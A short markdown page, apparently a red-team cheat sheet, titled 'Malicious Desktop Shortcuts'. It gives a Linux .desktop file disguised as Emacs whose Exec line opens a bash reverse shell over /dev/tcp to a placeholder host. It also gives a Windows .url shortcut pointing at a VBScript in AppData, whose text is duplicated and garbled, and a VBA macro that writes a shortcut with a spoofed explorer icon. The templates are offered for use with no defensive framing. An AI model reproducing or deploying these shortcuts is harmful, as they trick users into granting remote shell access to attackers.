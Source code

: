 # Malicious Desktop Shortcuts

## Linux

```
[Desktop Entry]
Name=Emacs
Exec=/bin/bash -i >& /dev/tcp/[RHOST]/[RPORT] 0>&1
Icon=http://bit.ly/icon-png
Terminal=false
Type=Application
```

## Windows

```
[InternetShortcut]
URL=file:///C:\Users\user\AppData\Roaming\forfiles\regsvr32.vbs[InternetShortcut]
URL=file:///C:\Users\user\AppData\Roaming\forfiles\regsvr32.vbs
```

## Excel Sheet Macro `mailto:`

```
Private Sub Form_Load()
Open "C:\mail.url" For Output As #1
Print #1, "[InternetShortcut]"
Print #1, "URL=mailto:example@example.com"
Print #1, "IconIndex = 0"
Print #1, "IconFile=C:\WINDOWS\explorer.exe"
Close #1
End Sub
```